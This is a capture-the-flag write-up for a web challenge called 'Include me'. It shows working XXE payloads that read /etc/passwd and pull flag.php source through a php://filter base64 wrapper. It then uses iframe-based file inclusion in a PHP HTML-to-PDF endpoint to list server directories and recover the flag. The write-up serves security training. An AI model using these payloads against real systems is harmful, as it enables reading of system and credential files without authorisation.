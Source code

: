 # Include me
## Description

> Zero Dollar Security is hiring infosec enthusiast. Apply ASAP. Connect at chall.ctf-ehcon.ml:32104

## Solution

This application just has register function

![Register function](./img/Include%20me/register.png)

Use Burp Suite to intercept the request.
- As we see, body of the request is XML
- The response has the `username` has sent before

--> This might contain XXE vulnerability 

![Register function](./img/Include%20me/register-burp.png)

The first we try to read a file such as `/etc/passwd` 
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [	
        <!ENTITY ext SYSTEM "file:///etc/passwd"> 
    ]>
    <root>
        <email>&ext;</email>
        <password>none</password>
    </root>
```

![XXE](./img/Include%20me/read-file-xxe.png)

That's good, continue reading other files such as `flag.txt`, `flag.php`... but I get nothing.

When I'm trying to list directory, I receive a strange response having a newline character `\n` 

![New hint](./img/Include%20me/read-file-2.png)

Nice, use another method to read or list directory. Because I knew this application use `PHP`, therefore I use PHP wrapper to read file
- File `flag.php` is guessed
	
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [	
        <!ENTITY ext SYSTEM "php://filter/convert.base64-encode/resource=flag.php">  
    ]>
    <root>
        <email>&ext;</email>
        <password>none</password>
    </root>
```

![Read file with PHP wrapper](./img/Include%20me/read-file-base64.png)

Okay good response, take this to base64 decode. Read this code a bit
- It takes param `content` in request using `POST` method
- Put `content` into created file with given `content` 
- Pass 2 file `.html` and `.pdf` to `/var/www/html/files/` 
```php
<?php
if (($_SERVER["REQUEST_METHOD"] ?? 'GET') == 'POST'){
    if(isset($_POST["content"])){
       $file_name=rand(4060,9999).'.html';
        file_put_contents("files/".$file_name,$_POST["content"]);
        passthru("java -Xmx512m -Djava.awt.headless=true -cp /var/www/html/pd4ml_demo.jar Pd4Cmd file:////var/www/html/files/$file_name 800 A4 -out /var/www/html/files/result.pdf");
    }
    else{
	echo "Try harder!!, pal";
	}
}
else{
    echo "Try harder!!!, pal";
}
?>
```
What did I get through this snippet code?
- We can put our payload into a file `html` 
- A new directory `/var/www/html/files/` 

Well, observer new directory a bit

![Files directory](./img/Include%20me/directory-before-post.png)

Now, how can we capture the flag with controlable data HTML? Can we read file or list directory?

We can definately do it with `iframe` tag in HTML
--> LFI with iframe

Replace body of `POST` method from XML to `content`

![POST method](./img/Include%20me/post.png)

My payload:
- Diretory listing of `/` 

![Content param in POST method](./img/Include%20me/content.png)

After send the request, F5 the application we will get new files

![After post](./img/Include%20me/directory-after-post.png)

Nice, check out content of file `result.pdf` 

![List directory in /](./img/Include%20me/list-directory.png)

Where is the flag? Ah, it's in `/ctf/`. List directory in `/ctf/`

![List directory in /ctf/](./img/Include%20me/list-directory-ctf.png)

The flag was captured 🎉🎉

```
Flag is : EHACON{lf1_@nd_xx3_1s_fun}
```
